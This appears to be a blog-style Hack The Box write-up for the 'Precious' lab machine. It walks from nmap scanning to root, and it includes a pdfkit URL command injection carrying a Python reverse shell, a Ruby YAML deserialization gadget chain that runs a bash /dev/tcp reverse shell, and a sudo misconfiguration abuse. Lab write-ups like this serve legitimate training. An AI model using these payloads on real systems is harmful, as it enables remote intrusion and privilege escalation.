 ```yaml
---
title: Hack The Box - Precious
tags: [HTB, Webapp Exploit, nmap, Python]
layout: post
---
```


Some Description

## Summary
- Information Gathering
    - Nmap Scanning
- Exploit CVE for Vulnerable Version
- Privilege Escalation
---
## Information Gathering Stage
### Nmap Scanning 
`sudo nmap -sV 10.10.11.189 -p-`

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
## Exploiting Stage
Web redirect to precious.htb → add record to hosts
`echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts`
Checking around the machine, we are gather a lot of information useful like: nginx 1.18.0, port 80,22, Function Convert remote file to PDF, ...
Let's check version it! :) We have a traffic to getshell low privilege escalation

*** Check pdf version ***
```sh
#exiftool file_name.pdf 
ExifTool Version Number         : 12.57
File Name                       : file_name.pdf
File Size                       : 23 kB
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
...
Creator                         : Generated by pdfkit v?.?.?
```

Just do google search to getshell.

```bash
http://10.10.14.8/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'
```

Get shell → swap user `ruby` to `henry` (credential at .bundle in /homw/Henry folder)

User.txt: `********************************`

## Privilege Escalation

---

Transfer File linpeas.sh

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.189 - - [19/Apr/2023 22:49:13] "GET /linpeas.sh HTTP/1.1" 200 -
```

SUID

```bash
-rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent                                                                                                                                                                                  
-rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /usr/bin/bash
```

`Sudo -l`

```bash
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby **/opt/update_dependencies.rb**
```

Cat  **`/opt/update_dependencies.rb`**

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9999 0>&1'"
         method_id: :resolve
```

It execute command at line in the end of file (git_set) → change value into Reverse shell (bash).

### Listen and run file

```bash
nc -nlvp 9999
```

```bash
sudo ruby /opt/update_dependencies.rb
```

Root.txt: `********************************`
